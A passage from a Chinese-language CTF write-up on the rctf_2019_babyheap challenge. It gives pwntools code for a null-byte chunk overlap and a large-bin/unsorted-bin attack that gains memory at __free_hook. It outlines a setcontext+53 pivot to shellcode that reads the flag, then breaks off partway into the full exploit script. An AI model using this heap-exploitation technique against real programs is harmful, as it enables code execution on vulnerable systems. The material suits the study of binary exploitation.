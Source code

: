 跟上面的思路相同，先`poison by null`拿到可以控制`idx10`的`idx11`。

并申请`idx12`，把之前申请完`idx9 idx11`之后的剩余部分放入large bin，我们就可以通过`idx10`来控制`fwd`。

```python
payload = flat([
    p64(0)*6,
    p64(0),
    p64(0x4a1),
    p64(0),
    p64(storage-0x20+8)+p64(0)+p64(storage-0x20-0x18-5)
])
edit(10, payload)   #edit the head of largebinchunk

payload = flat([
    p64(0),
    p64(0x21),
    p64(0x21)*6
])
edit(11, payload)   #idx10->size = 0x21

delete(10)  #idx10 into unsorted bin
edit(11,p64(0)+p64(0x4b1)+p64(0)+p64(fake_chunk))#edit idx 10 the head and bk in unsorted bin
add(0x48)   #10 __free_hook - 0x20
```

跟之前的题目思路相同，最终修改`size`，拿到`__free_hook`那部分内存。

#### setcontext

由于我们不能使用`gadget`，但是我们可以使用直接读取`flag`。所以我们通过`setcontext`来获得`flag`。

大体上是将`__free_hook`设置为`setcontext+53`的地址来调整栈空间，然后将`shellcode`放到`__free_hook`附近，就会运行到这里，拿到`shell`。

这方面的具体内容可以看上面的前置补偿。

`shellcode`直接使用Ex师傅的了。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.arch='amd64'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p=process('./rctf_2019_babyheap')
# p = remote("node3.buuoj.cn", 28020)

def add(size):
	p.sendlineafter(": \n",str(1))
	p.sendlineafter("ize: ",str(size))

def edit(idx,c):
	p.sendlineafter(": \n",str(2))
	p.sendlineafter("dex: ",str(idx))
	p.sendafter("tent: ",c)

def delete(idx):
	p.sendlineafter(": \n",str(3))
	p.sendlineafter("dex: ",str(idx))

def view(idx):
	p.sendlineafter(": \n",str(4))
	p.sendlineafter("dex: ",str(idx))

#libc base
```
